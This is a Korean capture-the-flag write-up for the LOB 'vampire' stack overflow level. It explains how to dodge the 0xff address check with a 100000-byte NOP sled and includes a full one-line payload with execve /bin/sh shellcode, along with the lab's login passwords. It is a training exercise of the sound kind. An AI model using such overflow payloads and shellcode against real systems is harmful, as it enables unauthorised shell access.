

# [LOB] vampire Write-up


```
login : troll
Password : aspirin
```

위의 계정으로 로그인하면 접속 가능하다.

이번 문제의 소스코드는 다음과 같다.


이번 문제는 주소의 2byte 부분이 ff이면 안된다. argv[2]에 쉘코드와 NOP을 많이 넣어 fe가 되도록 했다.

```
[troll@localhost troll]$ cp vampire aaaaaaa
```

우선 파일을 복사했다.


복사한 파일로 실행시켰다. 첫 번째 인자로 NOP 44byte와 RET를 넣어주고, 두 번째 인자로 NOP 100000 byte를 넣고 쉘코드를 넣어주었다. 



argv[2]의 주소를 확인해보면 `0xbffe75aa` 라는 것을 알 수 있다. 리턴주소로 argv[2]의 시작 주소를 넣어주면 된다. 페이로드는 다음과 같다.

```
./vampire `python -c 'print "\x90"*44+"\xaa\x75\xfe\xbf"'` `python -c 'print "\x90"*100000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

argv[1]에는 `NOP(44byte) + RET(argv[2]의 시작주소 4byte)` 을 넣고, argv[2]에는 `NOP(100000byte) + 쉘코드(25byte)` 을 넣어준다.


비밀번호는 `music world` 이다.